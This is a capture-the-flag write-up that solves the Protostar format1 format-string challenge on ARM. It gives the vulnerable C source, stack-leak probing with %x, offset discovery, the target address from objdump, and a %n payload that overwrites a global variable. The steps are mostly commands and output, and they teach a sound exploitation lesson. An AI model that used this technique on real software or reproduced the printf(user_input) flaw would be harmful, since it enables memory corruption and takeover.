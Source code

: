 ## Protostar ARM format1

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);

  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}

```
#### _Let's start_


Running the program we can see that it prints our input (given as argument).

```code
pi@raspberrypi:~/protostar/format/format1 $ ./format1 aaaa
aaaa
```

According with the article we can try to run the program and understand if it's possible to exploit it due to a format string vulnerability.

```code
pi@raspberrypi:~/protostar/format/format1 $ ./format1 %s
��~��~pi@raspberrypi:~/protostar/format/format1 $ ./format1 %x
7efff5d4pi@raspberrypi:~/protostar/format/format1 $ ./format1 %x%x
7efff5c47efff5d0pi@raspberrypi:~/protostar/format/format1 $ ./format1 %x%x%x
7efff5c47efff5d07efff71api@raspberrypi:~/protostar/format/format1 $ ./format1 %x.%x.%x
7efff5c4.7efff5d0.7efff718pi@raspberrypi:~/protostar/format/format1 $ ./format1 %x.%x.%x.%x
7efff5c4.7efff5d0.7efff715.10c8cpi@raspberrypi:~/protostar/format/format1 $
```

As we can see, we are able to read values contained into the memory. But as we can read values from the memory, we are also able to write values in memory.
We are pretty sure that the program is vulnerable and an idea to solve this challenge will be the follow:  

1. Find at which offset our input (AAAA) is located into the stack
2. Replace our input (AAAA) with the address of the variable `target` in order to overwrite its value

To find at which offset our input is located we will input a string like 'AAAA' and the we will read the values in the stack to find the offset of its hex representation.

```code
pi@raspberrypi:~/protostar/format/format1 $ ./format1 `python -c "print 'AAAA' +'%08x.'*200"`
AAAA7efff1e4.7efff1f0.7efff334.00010c8c.7efff334.7efff0a4.00010578.7efff1e4.00000002.00000000.000107bc.00000000.00000002.7efff1e4.00010550.059fa726.7b61500e.00010c8c.00010198.01010680.00010198.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.000103fc.00010d2c.00000000.7efff1e4.7efff32a.7efff334.00000000.7efff721.7efff731.7efff748.7efff75c.7efff774.7efff783.7efff7a9.7efff7b4.7efff7c9.7efff7d7.7efff7e8.7efff7fd.7efffddf.7efffe0f.7efffe26.7efffe3a.7efffe58.7efffe60.7efffe68.7efffe81.7efffe9c.7efffeaf.7efffece.7efffeee.7effff02.7effff74.7effff86.7effff99.7effffb0.7effffc5.7effffe6.00000000.00000021.76fff000.00000010.003fb0d6.00000006.00001000.00000011.00000064.00000003.00010034.00000004.00000020.00000005.00000009.00000007.00000000.00000008.00000000.00000009.000103d0.0000000b.000003e8.0000000c.000003e8.0000000d.000003e8.0000000e.000003e8.00000017.00000000.00000019.7efff316.0000001a.00000010.0000001f.7efffff2.0000000f.7efff326.00000000.00000000.00000000.bdcf0000.578e4c0d.79cf7b60.0d03d22b.3776959d.2f2e006c.6d726f66.00317461.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.
```

We can see in the last few lines our value `41414141`  and to find the offset we can count it manually or decreasing by ten for example the printed values.

```code
pi@raspberrypi:~/protostar/format/format1 $ ./format1 `python -c "print 'AAAA' +'%08x.'*190"`
AAAA7efff214.7efff220.7efff366.00010c8c.7efff366.7efff0d4.00010578.7efff214.00000002.00000000.000107bc.00000000.00000002.7efff214.00010550.da69188c.a497efd4.00010c8c.00010198.01010680.00010198.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.000103fc.00010d2c.00000000.7efff214.7efff35c.7efff366.00000000.7efff721.7efff731.7efff748.7efff75c.7efff774.7efff783.7efff7a9.7efff7b4.7efff7c9.7efff7d7.7efff7e8.7efff7fd.7efffddf.7efffe0f.7efffe26.7efffe3a.7efffe58.7efffe60.7efffe68.7efffe81.7efffe9c.7efffeaf.7efffece.7efffeee.7effff02.7effff74.7effff86.7effff99.7effffb0.7effffc5.7effffe6.00000000.00000021.76fff000.00000010.003fb0d6.00000006.00001000.00000011.00000064.00000003.00010034.00000004.00000020.00000005.00000009.00000007.00000000.00000008.00000000.00000009.000103d0.0000000b.000003e8.0000000c.000003e8.0000000d.000003e8.0000000e.000003e8.00000017.00000000.00000019.7efff348.0000001a.00000010.0000001f.7efffff2.0000000f.7efff358.00000000.00000000.00000000.00000000.710992b7.a496e854.6045d691.cc188a96.006c3776.6f662f2e.74616d72.41410031.30254141.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.
```

```code
pi@raspberrypi:~/protostar/format/format1 $ ./format1 `python -c "print 'AAAA' +'%08x.'*180"`
AAAA7efff244.7efff250.7efff398.00010c8c.7efff398.7efff104.00010578.7efff244.00000002.00000000.000107bc.00000000.00000002.7efff244.00010550.dc81ea92.a27f1c1a.00010c8c.00010198.01010680.00010198.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.000103fc.00010d2c.00000000.7efff244.7efff38e.7efff398.00000000.7efff721.7efff731.7efff748.7efff75c.7efff774.7efff783.7efff7a9.7efff7b4.7efff7c9.7efff7d7.7efff7e8.7efff7fd.7efffddf.7efffe0f.7efffe26.7efffe3a.7efffe58.7efffe60.7efffe68.7efffe81.7efffe9c.7efffeaf.7efffece.7efffeee.7effff02.7effff74.7effff86.7effff99.7effffb0.7effffc5.7effffe6.00000000.00000021.76fff000.00000010.003fb0d6.00000006.00001000.00000011.00000064.00000003.00010034.00000004.00000020.00000005.00000009.00000007.00000000.00000008.00000000.00000009.000103d0.0000000b.000003e8.0000000c.000003e8.0000000d.000003e8.0000000e.000003e8.00000017.00000000.00000019.7efff37a.0000001a.00000010.0000001f.7efffff2.0000000f.7efff38a.00000000.00000000.00000000.00000000.5b440000.1b9ae73c.daa0a27e.8d31c167.37766b5c.2f2e006c.6d726f66.00317461.41414141.78383025.3830252e.30252e78.252e7838.
```

Now, it's pretty easy to find our offset which is `174`  
Let's find out the address of the `target` variable using `objdump`

```code
pi@raspberrypi:~/protostar/format/format1 $ objdump -t format1 | grep target
01010898 g     O .bss	00000004 target
```

As explained in the article, we can use the value `%n` to overwrite a memory location using the `printf()`. We will replace our last `%08x` with `%n` and the value `AAAA` will be replaced by the address of the variable to change. By this way, we will be able to change the value of our variable.

Let's try
```code
pi@raspberrypi:~/protostar/format/format1 $ ./format1  "`python -c "print '\x98\x08\x01\x01'+'%174x' + '%n'"`"
7efff264 7efff270 7efff3b4 00010c8c 7efff3b4 7efff124 00010578 7efff264 00000002 00000000 000107bc 00000000 00000002 7efff264 00010550 dc003c6d a2fecac5 00010c8c 00010198 01010680 00010198 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 000103fc 00010d2c 00000000 7efff264 7efff3aa 7efff3b4 00000000 7efff721 7efff731 7efff748 7efff75c 7efff774 7efff783 7efff7a9 7efff7b4 7efff7c9 7efff7d7 7efff7e8 7efff7fd 7efffddf 7efffe0f 7efffe26 7efffe3a 7efffe58 7efffe60 7efffe68 7efffe81 7efffe9c 7efffeaf 7efffece 7efffeee 7effff02 7effff74 7effff86 7effff99 7effffb0 7effffc5 7effffe6 00000000 00000021 76fff000 00000010 003fb0d6 00000006 00001000 00000011 00000064 00000003 00010034 00000004 00000020 00000005 00000009 00000007 00000000 00000008 00000000 00000009 000103d0 0000000b 000003e8 0000000c 000003e8 0000000d 000003e8 0000000e 000003e8 00000017 00000000 00000019 7efff396 0000001a 00000010 0000001f 7efffff2 0000000f 7efff3a6 00000000 00000000 00000000 fb1e0000 cd45e5af 7914a2ff fe025275 3776a8b8 2f2e006c 6d726f66 00317461 you have modified the target :)
```

We changed the value of the variable `target`

__*Done :)*__
